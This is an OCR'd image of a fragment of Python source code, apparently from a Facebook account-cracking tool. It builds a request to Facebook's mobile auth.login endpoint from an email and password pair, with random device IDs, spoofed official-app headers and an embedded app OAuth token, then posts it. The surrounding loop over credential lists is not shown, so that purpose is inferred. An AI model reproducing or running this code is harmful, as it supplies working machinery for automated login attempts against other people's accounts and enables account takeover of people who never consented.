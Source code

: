                                 device_id = str(uuid.uuid4())

                                adid = str(uuid.uuid4())

                                data = {'adid':adid,

                                        'email':ids,

                                        'password':pas,

                                        'cpl':'true',

                                        'credentials_type':'device_based_login_password',

                                        "source": "device_based_login",

                                        'error_detail_type':'button_with_disabled',

                                        'source':'login','format':'json',

                                        'generate_session_cookies':'1',

                                        'generate_analytics_claim':'1',

                                        'generate_machine_id':'1',

                                        "locale":"en_US","client_country_code":"US",

                                        'device':gtt,

                                        'device_id':adid,

                                        "method": "auth.login",

                                        "fb_api_req_friendly_name": "authenticate",

                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}

                                head = {

                                        'content-type':'application/x-www-form-urlencoded',

                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),

                                        'x-fb-connection-type':'unknown',

                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',

                                        'user-agent':ua_string,

                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),

                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),

                                        'x-fb-connection-quality':'EXCELLENT',

                                        'x-fb-friendly-name':'authenticate',

                                        'accept-encoding':'gzip, deflate',

                                        'x-fb-http-engine':     'Liger'}

                                url = 'https://b-api.facebook.com/method/auth.login'

                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
